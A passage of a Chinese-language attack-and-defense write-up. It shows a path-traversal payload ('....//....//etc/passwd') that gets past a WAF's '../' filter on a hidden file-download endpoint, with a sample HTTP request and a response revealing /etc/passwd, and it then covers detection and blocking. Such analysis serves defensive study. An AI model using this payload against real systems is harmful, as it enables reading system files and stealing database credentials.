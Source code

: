 攻击者通过接口Fuzz发现隐晦文件下载接口（
```
/internal/file/secure/4a8b1c2d-9e6f-4d7a-b2c3-7f8e9a0b1c2e
```

  
），通过路径穿越payload（
```
file=....//....//etc/passwd
```

  
）绕过WAF的
```
../
```

  
过滤，读取
```
/etc/passwd
```

  
和
```
config.php
```

  
，获取数据库凭据。WAF未检测到该混淆路径。  
  
- **数据包示例（文件读取绕过）**  
：  

```
GET /internal/file/secure/4a8b1c2d-9e6f-4d7a-b2c3-7f8e9a0b1c2e?file=....//....//etc/passwd HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0
```

  
响应返回敏感文件：  

```
HTTP/1.1 200 OK
Content-Type: text/plain
root:x:0:0:root:/root:/bin/bash
```

  
  
#### 防护方如何发现并阻断  
  
- **发现**  
：SIEM检测到异常数据库连接，EDR捕获异常文件访问日志。  
  
- **阻断**  
：防火墙阻断攻击者IP，数据库临时禁用外部访问。  
  
  
#### 暴露的可优化点  
  